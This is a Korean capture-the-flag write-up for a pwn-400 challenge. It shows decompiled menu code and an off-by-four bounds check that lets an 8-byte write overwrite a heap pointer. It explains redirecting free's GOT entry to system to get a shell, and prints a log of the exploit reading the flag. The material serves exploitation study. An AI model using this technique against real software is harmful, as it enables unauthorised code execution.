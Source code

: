 ## solve

#### menu
```
[1] mov dword register, register
[2] mov dword memory, register
[3] mov dword register, memory
[4] mov dword register, $data
[5] mov qword register, register
[6] mov qword memory, register
[7] mov qword register, memory
[8] mov qword register, $data
[9] sub register, register
[10] sub register, memory
[11] sub register, $data
[12] add register, register
[13] add register, memory
[14] add register, $data
[15] push $string
[16] push dword $data
[17] pop $string
[18] pop dword $data
[19] int 0x80
[20] Exit..
```
</br>

#### 8번 메뉴
``` c
//8번 메뉴
case 8:
  write(1, "Input dest : ", 0xDu);
  read(0, &s, 0x14u);
  while ( strcmp((&s1)[4 * v2], &s) )
  {
    if ( ++v2 > 7 )
    {
      write(1, "Can't find dest\n", 0x10u);
      return *MK_FP(__GS__, 20) ^ v10;
    }
  }
  if ( v2 <= 3 )
  {
    write(1, "You can only use 64-bit registers\n", 0x22u);
    return *MK_FP(__GS__, 20) ^ v10;
  }
  write(1, "Input data : ", 0xDu);
  __isoc99_scanf("%llu", &v6);
  sub_80488B6(8 * v2 + 134530304, v6);
  continue;  
```

* 8번 메뉴를 통해 rdx에 값을 저장할 수 있다. (그냥 8바이트를 저장할 수 있다.)
</br>

#### 6번 메뉴
``` c
//6번 메뉴
case 6:
  write(1, "Input dest : ", 0xDu);
  read(0, &s, 0x14u);
  v4 = strtoul(&s, 0, 16);
  if ( v4 < (unsigned int)&unk_804C0E0 || v4 > (unsigned int)&unk_804C4DC )
  {
    write(1, "Out-Of-Bounds!!\n", 0x10u);
    exit(0);
  }
  write(1, "Input source : ", 0xFu);
  read(0, &s2, 0x14u);
  while ( strcmp((&s1)[4 * v3], &s2) )
  {
    if ( ++v3 > 7 )
    {
      write(1, "Can't find source\n", 0x12u);
      return *MK_FP(__GS__, 20) ^ v10;
    }
  }
  if ( v3 <= 3 )
  {
    write(1, "You can only use 64-bit registers\n", 0x22u);
    return *MK_FP(__GS__, 20) ^ v10;
  }
  sub_8048858(v4, &dword_804C500[2 * v3]);
  continue;
```

* 여기서 레지스터에 있는 값을 메모리에 저장한다. 리틀엔디안 방식으로 저장이된다.

</br>

## Vulnerabilities
```
if ( v4 < (unsigned int)&unk_804C0E0 || v4 > (unsigned int)&unk_804C4DC )
```
* 6번 메뉴에서 범위를 검사하는데 0x804C4DC를 넘으면 안된다.</br>

```
buf = malloc(0x100u);
ptr = malloc(0x400u);
dword_804C4E0 = buf;
dword_804C4E4 = ptr;
```

* 바로 뒤의 804C4e0에는 buf의 주소인 힙의 주소가 저장되어 있는데, 만약 6번 메뉴에서 memory의 주소가 804C4DC로 지정을 하게되면 , 리틀엔디안 방식으로 8바이트가 저장되기 때문에 804C4e0를 overwrite 할 수 있다.

* 따라서 804C4e0에 free함수의 got주소를 overwrite하고 난 뒤, modify메뉴를 이용해서 buf의 값은 system함수의 주소로, ptr의 값은 '/bin/sh\x00' 으로 수정한다. 그리고 종료를 하게 되면 free(ptr)이 호출되고, system('/bin/sh\x00') 이 호출된다.

</br>

## Result
```
~/machome/ctf/doubles_ctf/pwn-400(master*) » python exploit.py k                                     stitch@certis
 OK..
[ Virtual Assembly System ]
[1] Show Examples
[2] Generate Assembly
[3] Modify Name and Description
[4] Help
[5] Exit
-> $ 5
Bye Bye~~
\x00$ id
uid=1002(prob02) gid=1002(prob02) groups=1002(prob02)
$ ls /home/prob02
asm
flag
$ cat /home/prob02/flag
flag{4sm_1s_s0_h4rd}
$
```
